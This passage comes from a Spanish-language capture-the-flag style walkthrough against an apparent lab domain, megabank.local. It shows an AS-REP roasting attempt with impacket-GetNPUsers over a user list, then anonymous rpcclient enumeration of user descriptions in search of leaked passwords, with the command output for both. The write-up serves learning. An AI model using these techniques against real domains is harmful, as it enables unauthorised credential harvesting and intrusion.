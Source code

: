 - Bueno ningún usuario que tenemos es vulnerable a este ataque al parecer ningún usuario tiene configurado el **UF_DONT_REQUIRE_PREAUTH** <https://learn.microsoft.com/es-es/windows/win32/api/lmaccess/ns-lmaccess-user_info_23>.

```bash
➜  nmap impacket-GetNPUsers megabank.local/ -no-pass -usersfile users.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marko doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sunita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marcus doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User melanie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User simon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn't have UF_DONT_REQUIRE_PREAUTH set
```

## RPC enumeración

- Bueno como pudimos autenticarnos sin proporcionar contraseña ni nada vamos a enumerar los usuarios para ver sus descripciones, ya que existen casos donde se comparten contraseñas en las descripciones, por ejemplo podemos ver la del usuario **Administrador**.

```bash
➜  nmap rpcclient -N -U '' 10.129.96.155
rpcclient $> queryuser Administrator
	User Name   :	Administrator
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	Built-in account for administering the computer/domain
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Thu, 28 Mar 2024 14:45:17 CST
	Logoff Time              :	Wed, 31 Dec 1969 18:00:00 CST
	Kickoff Time             :	Wed, 31 Dec 1969 18:00:00 CST
	Password last set Time   :	Thu, 28 Mar 2024 15:43:03 CST
	Password can change Time :	Fri, 29 Mar 2024 15:43:03 CST
	Password must change Time:	Wed, 13 Sep 30828 20:48:05 CST
	unknown_2[0..31]...
	user_rid :	0x1f4
	group_rid:	0x201
```